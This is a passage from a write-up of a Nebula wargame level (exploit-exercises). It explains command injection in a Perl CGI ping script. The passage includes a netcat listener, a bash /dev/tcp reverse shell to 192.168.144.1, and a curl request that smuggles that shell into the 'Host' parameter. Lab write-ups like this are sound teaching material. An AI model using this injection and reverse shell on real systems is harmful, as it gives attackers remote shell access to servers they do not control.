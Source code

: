 ```perl
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");

}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

There is a command injection in this script where the value of the `"Host"`
parameter is passed directly into a `system()` call which in perl can be done
through backticks (`` ` ``).

To exploit this, we will execute a command on the Nebula system to obtain a
reverse shell. This is a technique we will be using often in this exercise. We
start by setting up a netcat listener.

```shell
ncat -nlvp 8000

Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 5F3F 6ECC 75A2 4FF9 C358 2913 09FF 5C75 6D50 F5A4
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
```

The reverse shell we will be using is a bash based one:

```
bash -i >& /dev/tcp/192.168.144.1/8000 0>&1
```

We make a HTTP request with `curl`. The `Host` parameter is a URL encoded
`127.0.0.1; bash -i >& /dev/tcp/192.168.144.1/8000 0>&1;` string.

```shell
curl http://192.168.144.191:7007/index.cgi\?Host\=127.0.0.1%3B%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.144.1%2F8000%200%3E%261%3B%0D%0A
```


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md